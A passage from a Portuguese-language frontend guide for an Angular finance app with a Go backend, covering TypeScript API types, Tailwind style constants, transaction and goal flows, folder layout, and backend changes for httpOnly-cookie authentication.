export interface GoalTransaction {
  id?: string;
  goal_id?: string;
  transaction_id?: string;
  amount?: number;
  created_at?: string;
}

export interface CreateGoalTransactionInput {
  goal_id: string;
  transaction_id: string;
  amount: number;
}

/* ============ Transaction ============ */
export interface Transaction {
  id: string;
  amount: number;
  category_id: string;
  description: string;
  version: number;
  created_at: string;
}

export interface CreateTransactionInput {
  amount: number;
  category_id: string;
  description: string;
}

export interface UpdateTransactionInput extends CreateTransactionInput {
  version: number;
}

export interface TransactionFilters {
  page?: number;
  page_size?: number;
  sort?: 'id' | 'amount' | '-id' | '-amount';
  start_date?: string;
  end_date?: string;
  category_id?: string;
  type?: CategoryType;
}

/* ============ Summary ============ */
export interface Summary {
  period: { start_date?: string | null; end_date?: string | null };
  total: number;
  total_input: number;
  total_output: number;
  balance: number;
  count: number;
  by_category: SummaryItem[];
}

export interface SummaryItem {
  category_id: string;
  category_name: string;
  type: CategoryType;
  total: number;
  count: number;
}
```

---

## 5.1 Design System (Tailwind)

`src/app/shared/ui/styles.ts` — idêntico ao guia v2.0. Sem mudanças.

```ts
export const btnPrimary =
  'inline-flex items-center justify-center rounded-lg bg-emerald-600 px-4 py-2.5 font-medium text-white shadow-sm transition-all duration-150 hover:bg-emerald-700 focus:outline-none focus:ring-2 focus:ring-emerald-500 focus:ring-offset-2 active:scale-[0.98] disabled:opacity-60 disabled:cursor-not-allowed disabled:active:scale-100';

export const btnSecondary =
  'inline-flex items-center justify-center rounded-lg px-4 py-2.5 font-medium text-slate-700 transition-colors hover:bg-slate-100 focus:outline-none focus:ring-2 focus:ring-slate-300 focus:ring-offset-2 disabled:opacity-60 disabled:cursor-not-allowed';

export const inputBase =
  'w-full rounded-lg border border-slate-300 bg-white px-3 py-2.5 text-slate-900 placeholder:text-slate-400 transition-all duration-150 focus:outline-none focus:border-emerald-500 focus:ring-2 focus:ring-emerald-500/20 disabled:opacity-60 disabled:cursor-not-allowed';

export const labelBase = 'mb-1.5 block text-sm font-medium text-slate-700';

export const fieldError = 'mt-1.5 flex items-center gap-1 text-xs text-red-600';

export const alertError =
  'flex items-start gap-2 rounded-lg border border-red-200 bg-red-50 px-3 py-2.5 text-sm text-red-700';

export const alertWarning =
  'flex items-start gap-3 rounded-lg border border-amber-200 bg-amber-50 px-4 py-3 text-sm text-amber-800';

export const card = 'rounded-2xl border border-slate-200 bg-white p-6 shadow-sm';

export const cardHover =
  'block rounded-2xl border border-slate-200 bg-white p-5 shadow-sm transition-all hover:border-emerald-300 hover:shadow-md';

export const h1 = 'text-2xl font-bold tracking-tight text-slate-900';

export const subtitle = 'mt-1 text-sm text-slate-500';
```

---

## 6. Fluxos de Feature

### 6.1 Login



### 6.2 Bootstrap (F5)



### 6.3 Refresh automático em 401



### 6.4 Logout



### 6.5 Listagem de transações com filtros na URL

Filtros são propagados na URL via `router.navigate([], { queryParams })`. Componente escuta `ActivatedRoute.queryParams` e recarrega. Estado do filtro **vive na URL** — compartilhável, back/forward funcionam, F5 preserva.

### 6.6 Editar transação com optimistic lock

`PUT` inclui `version`. Se o backend responder `409 ErrEditConflict`, mostra banner "dados desatualizados — recarregar?" e re-submete com a versão nova.

---

## 7. Estrutura de Pastas Sugerida

```
src/
├── app/
│   ├── core/
│   │   ├── models/api.types.ts
│   │   ├── services/
│   │   │   ├── auth.service.ts
│   │   │   ├── category.service.ts
│   │   │   ├── transaction.service.ts
│   │   │   └── goal.service.ts
│   │   ├── interceptors/
│   │   │   ├── auth.interceptor.ts
│   │   │   └── error.interceptor.ts
│   │   └── guards/
│   │       └── auth.guard.ts
│   ├── features/
│   │   ├── auth/{login,signup}/
│   │   ├── dashboard/
│   │   ├── transactions/{transactions-list,transaction-form}/
│   │   ├── categories/{categories-list,category-form}/
│   │   └── goals/{goals-list,goal-detail}/
│   ├── shared/
│   │   ├── components/{pagination,summary-card,metric-card}/
│   │   └── ui/styles.ts
│   ├── app.component.ts
│   ├── app.config.ts
│   └── app.routes.ts
├── environments/
└── styles.css
```

---

## 8. TL;DR — Regras de Ouro

1. **Tokens em cookies httpOnly**, setados **pelo backend Go** (sem BFF).
2. **`withCredentials: true`** em todas as requisições — defesa em profundidade.
3. **Serializa refresh** com `shareReplay` — paralelos revogam a família.
4. **`/session` no boot** do `AuthService`, uma vez, nunca mais.
5. **`session` sempre retorna 200** — `{ authenticated: bool }`, não erro.
6. **`version` obrigatório** em `PUT /v1/transactions/{id}` — trate 409.
7. **`status` de goals é PT-BR no filtro** e **EN no response**.
8. **Categoria com `goal_id`** não pode ser deletada.
9. **`metadata` vem como `{}`** quando não há registros — `Partial<>` sempre.
10. **`progress` do goal report é 0–100** (não 0–1).
11. **Eventos Kafka são assíncronos** — progresso de meta pode vir desatualizado por alguns ms.
12. **Design system em `shared/ui/styles.ts`** — uma fonte de verdade.

---

## Apêndice A — Mudanças no backend necessárias

### A.1 Novo pacote `shared/auth/cookie.go`

Funções `SetAccessTokenCookie`, `SetRefreshTokenCookie`, `ClearAuthCookies`, `TokenFromRequest`, `RefreshTokenFromRequest`. (`HttpOnly: true`, `Secure: isProd()`, `SameSite: Lax` em dev / `Strict` em prod.)

### A.2 Middleware `Authenticate` — aceita cookie ou Bearer

```go
token := sharedauth.TokenFromRequest(r)
if token == "" {
    // trata como anônimo
}
// resto igual: ExtractAuthenticatedUser(token), etc.
```

### A.3 `ms_auth` handler

- `Authenticate`: seta cookies + retorna `{ ok: true }`.
- `RefreshToken`: lê cookie de refresh, rotaciona, seta novos cookies. Se falhar, limpa tudo.
- `Logout`: lê cookie, revoga, limpa.
- **Novo** `Session`: valida cookie de access, retorna `{ authenticated: bool }`. Sempre 200.

### A.4 `ms_auth` service

- `TokenResponse` ganha campo `RefreshExpiresIn`.
- Método novo `ValidateAccessToken(ctx, token) bool` — usado pelo `/session`.

### A.5 Router

Adicionar `router.Get("/session", h.Session)`.

### A.6 CORS

Adicionar `Access-Control-Allow-Credentials: true` no `EnableCORS`.

---

## Apêndice B — Alternativas arquiteturais (quando não dá pra mudar o Go)

Se um dia o backend não puder ser modificado:

1. **BFF** (Node/Express entre Angular e Go) — recebe JSON com tokens, seta cookies, injeta `Authorization`.
2. **SSR** (Angular Universal) — servidor Angular lê cookies da request e injeta nas chamadas.
3. **`localStorage`** — aceito como último recurso; XSS pega o token. Não recomendado em domínio financeiro.

Nenhuma dessas é necessária no cenário atual — o backend é seu e já foi modificado.

---